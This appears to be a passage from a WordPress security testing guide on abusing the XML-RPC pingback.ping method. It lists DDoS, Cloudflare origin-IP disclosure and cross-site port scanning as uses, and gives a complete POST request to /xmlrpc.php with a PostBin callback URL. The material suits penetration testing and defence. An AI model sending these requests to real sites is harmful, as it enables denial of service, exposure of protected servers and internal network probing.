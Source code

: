 **RESPONSE:**

```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 17:19:05 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 181
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <string>Hello!</string>
      </value>
    </param>
  </params>
</methodResponse>
```

### XML-RPC pingbacks attacks:

In this case, an attacker is able to leverage the default `XML-RPC API` in order to perform callbacks for the following purposes:
1. `Distributed denial-of-service (DDoS) attacks` - An attacker executes the **pingback.ping** the method from several affected WordPress installations against a single unprotected target (botnet level).
2. `Cloudflare Protection Bypass` - An attacker executes the **pingback.ping** the method from a single affected WordPress installation which is protected by CloudFlare to an attacker-controlled public host (for example a VPS) in order to reveal the public IP of the target, therefore bypassing any DNS level protection.
3. `XSPA (Cross Site Port Attack)` - An attacker can execute the **pingback.ping** the method from a single affected WordPress installation to the same host (or other internal/private host) on different ports. An open port or an internal host can be determined by observing the difference in time of response and/or by looking at the response of the request.

The following represents an simple example request using the [PostBin](https://postb.in/) provided URL as callback:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://postb.in/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
```
